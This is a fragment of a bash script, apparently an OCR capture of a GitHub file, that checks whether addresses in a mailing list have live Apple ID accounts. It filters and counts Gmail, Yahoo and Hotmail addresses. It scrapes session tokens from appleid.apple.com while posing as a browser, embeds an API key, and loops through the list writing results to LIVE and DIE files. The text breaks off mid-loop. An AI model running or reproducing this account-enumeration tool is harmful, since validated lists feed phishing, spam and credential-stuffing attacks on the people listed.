   if [[ $val > 0 || $icl > 0 ]]; then
    printf "[$header] $2/$3. ${ORANGE}LIVE => $1 ${NC} $footer"
    echo "LIVE => $1" >> $4/live.txt
  else
    if [[ $inv > 0 ]]; then
      printf "[$header] $2/$3. ${RED}DIE => $1 ${NC} $footer"
      echo "DIE => $1" >> $4/die.txt
    else
      printf "[$header] $2/$3. ${CYAN}UNKNOWN => $1 ${NC} $footer"
      echo "$1 => $check" >> reason.txt
      echo "UNKNOWN => $1" >> $inputFile
    fi
  fi
 
  printf "\r"
}
 
 
 
# Preparing file list
# by using email pattern
# every line in $inputFile
echo "[+] Cleaning your mailist file"
grep -Eiorh '([[:alnum:]_.-]+@[[:alnum:]_.-]+?\.[[:alpha:].]{2,6})' $inputFile | tr '[:upper:]' '[:lower:]' | sort | uniq > temp_list && mv temp_list $inputFile
 
# Finding match mail provider
echo "########################################"
# Print total line of mailist
totalLines=`grep -c "@" $inputFile`
echo "There are $totalLines of list."
echo " "
echo "Hotmail: `grep -c "@hotmail" $inputFile`"
echo "Yahoo: `grep -c "@yahoo" $inputFile`"
echo "Gmail: `grep -c "@gmail" $inputFile`"
echo "########################################"
 
# Extract email per line
# from both input file
IFS=$'\r\n' GLOBIGNORE='*' command eval  'mailist=($(cat $inputFile))'
con=1
 
echo "[+] Sending $sendList email per $perSec seconds"
resp=`curl 'https://appleid.apple.com/account' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Connection: keep-alive' -H 'Accept-Encoding: gzip, deflate, sdch, br' -H 'Accept-Language: en-US,en;q=0.8,id;q=0.6,fr;q=0.4' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.81 Safari/537.36' --compressed -D - -s`
scnt="$(echo "$resp" | grep "scnt:" | awk -F[:,] '{print $2}' | xargs)"
sessionId="$(echo "$resp" | grep "sessionId:" | awk -F[:,] '{print $2}' | xargs)"
apiKey='cbf64fd6843ee630b463f358ea0b707b'
for (( i = 0; i < "${#mailist[@]}"; i++ )); do
  username="${mailist[$i]}"
  indexer=$((con++))
  tot=$((totalLines--))